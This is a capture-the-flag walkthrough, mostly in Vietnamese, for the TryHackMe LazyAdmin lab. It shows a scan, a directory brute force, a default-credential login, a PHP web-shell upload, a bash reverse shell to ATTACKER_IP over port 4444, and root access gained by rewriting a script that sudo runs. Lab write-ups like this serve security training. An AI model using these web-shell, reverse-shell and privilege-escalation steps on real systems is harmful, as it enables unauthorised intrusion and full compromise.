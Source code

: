## TryHackMe LazyAdmin Write-up

---

## 1. Reconnaissance (Dò quét thông tin)

**Step 1:** Nmap scan để check các port mở.

```bash
nmap -sC -sV -oN nmap_scan 10.10.10.10
```

Output cho thấy:

* Port 22 → SSH
* Port 80 → Web server (Apache)

*(Tóm lại: có web, có SSH → chắc chắn có trò hay ho 😏)*

---

## 2. Enumeration (Tìm thêm thông tin)

**Step 2:** Mở web ở port 80 → thấy trang bình thường.

Dùng `dirsearch` để brute force thư mục:

```bash
python3 dirsearch.py -u http://10.10.10.10 -e php,txt,html
```

Kết quả: tìm được `/content/as/` → chính là Adminer panel.

*(Nghĩa là web có CMS dỏm, dễ bị dính lỗi)*

---

## 3. Exploitation (Khai thác)

Trong thư mục `/content/as/` tìm thấy login page.
Thử credential mặc định → **admin\:password** (classic luôn 😅) → login thành công.

Trong dashboard có chức năng upload → nhưng check thì nó bị giới hạn.
Tuy nhiên, để ý có chỗ **archive function** → có thể chèn file `.php`.

**Payload reverse shell**:

```bash
echo "<?php system($_GET['cmd']); ?>" > shell.php
```

Rồi upload → truy cập `/content/as/shell.php?cmd=id` để test.

Khi ok thì tạo reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

Listener:

```bash
nc -lvnp 4444
```

Boom 💥 → Shell vào được user **www-data**.

---

## 4. Privilege Escalation (Leo quyền)

**Step 1:** Lục `/home` → có user `itguy`.
Check file → thấy `backup.pl`.

**Step 2:** Chạy `sudo -l` với user `www-data`:

```bash
sudo -l
```

Kết quả:
`(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

*(Tức là mình có thể chạy file Perl đó với quyền root mà không cần pass 😏)*

**Step 3:** Check `backup.pl`:

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

File gọi `/etc/copy.sh` → mình có thể chỉnh file đó để chèn reverse shell hoặc thêm root user.

Ví dụ exploit:

```bash
echo '/bin/bash' > /etc/copy.sh
chmod +x /etc/copy.sh
```

Rồi chạy:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

\=> Root shell 🎉

---

## 5. Loot (Thu hoạch)

* Lấy flag user trong `/home/itguy/user.txt`
* Lấy flag root trong `/root/root.txt`

Done ✅ → pwned LazyAdmin!

*(Quá trình: scan → dirsearch → default creds → webshell → privilege escalation → root. Ngon lành cành đào 🍑)*
